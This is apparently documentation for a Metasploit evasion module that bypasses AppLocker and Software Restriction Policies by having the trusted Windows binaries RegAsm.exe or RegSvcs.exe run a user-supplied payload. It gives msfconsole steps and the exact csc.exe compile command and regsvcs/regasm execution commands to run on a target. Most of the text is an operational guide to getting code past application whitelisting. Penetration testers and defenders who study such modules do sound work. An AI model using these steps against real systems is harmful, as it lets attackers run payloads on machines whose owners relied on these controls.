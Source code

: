 ## Introduction

This module is designed to evade solutions such as software restriction policies and Applocker.
Applocker in its default configuration will block code in the form of executables (.exe and .com, .msi), scripts (.ps1, .vbs, .js) and dll's from running in user controlled directories.
Applocker enforces this by employing whitelisting, in that code can only be run from the protected directories and sub directories of "Program Files" and "Windows"
The main vector for this bypass is to use the trusted binaries RegAsm.exe or RegSvcs.exe to execute user supplied code as these binaries are located within the trusted Windows directory.

## Vulnerable Application

This evasion will work on all versions of Windows that include .NET versions 3.5 or greater that has solutions such as Applocker or Software Restriction Policies active, that do not explicitly block RegAsm.exe, RegSvcs.exe or the "Microsoft.Net" directory.

## Options

- **TXT_FILE** - Filename for the evasive file (default: regasm_regsvcs.txt).
- **SNK_FILE** - Filename for the .snk file (default: key.snk). (note: to aid furter evasion it is recommended to create your own .snk file ref: https://docs.microsoft.com/en-us/dotnet/framework/app-domains/how-to-sign-an-assembly-with-a-strong-name)

## Verification Steps

  1. Start `msfconsole`
  2. Do: `use evasion/windows/applocker_evasion_regasm_regsvcs`
  3. Do: `set PAYLOAD <payload>`
  4. Do: `run`
  5. The module will now display instructions of how to proceed
  6. `[+] regasm_regsvcs.txt stored at /root/.msf4/local/regasm_regsvcs.txt`
  7. `[+] key.snk stored at /root/.msf4/local/key.snk`
  8. `[*] Copy regasm_regsvcs.txt and key.snk to the target`
  9. `[*] Compile using: C:\Windows\Microsoft.Net\Framework64\[.NET Version]\csc.exe /r:System.EnterpriseServices.dll /target:library /out:regasm_regsvcs.dll /keyfile:key.snk regasm_regsvcs.txt` replace [.NET Version] with the version directory present on the target (typically "v4.0.30319").
  10. `[*] Execute using: C:\Windows\Microsoft.NET\Framework64\[.NET Version]\regsvcs.exe regasm_regsvcs.dll` replace [.NET Version] with the version directory present on the target (typically "v4.0.30319").
  11. `[*] or`
  12. `[*] Execute using: C:\Windows\Microsoft.NET\Framework64\[.NET Version]\regasm.exe /U regasm_regsvcs.dll` replace [.NET Version] with the version directory present on the target (typically "v4.0.30319").

## References

https://attack.mitre.org/techniques/T1121/
